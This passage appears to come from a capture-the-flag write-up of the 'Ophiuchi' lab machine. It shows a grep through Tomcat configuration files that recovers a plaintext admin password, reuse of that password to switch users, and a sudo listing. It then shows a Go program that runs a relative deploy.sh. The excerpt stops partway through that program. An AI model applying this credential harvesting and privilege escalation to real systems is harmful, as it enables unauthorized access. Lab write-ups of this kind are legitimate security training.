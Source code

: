 ## Lateral Movement to admin
During the enumeration phase it was not possible to access the `/manager/` area with default credentials, meaning that **credentials was different**. Finding them would be an **easy win in case of password reuse**.

Searched tomcat admin credentials:
```bash
tomcat@ophiuchi:~$ grep -ri 'password' . --color 2>/dev/null
...
./conf/tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
...
```

Logged as `admin` reusing tomcat credentials:
```bash
tomcat@ophiuchi:~$ su admin
Password: whythereisalimit
admin@ophiuchi:/opt/tomcat$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```
### Video
<iframe width="560" height="315" src="https://www.youtube.com/embed/5QRXaYMzOIs" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

## Privilege Escalation
Enumerated sudo privileges for the `admin` user:
```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Enumerated contents of `/opt/wasm-functions/index.go`:
```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
```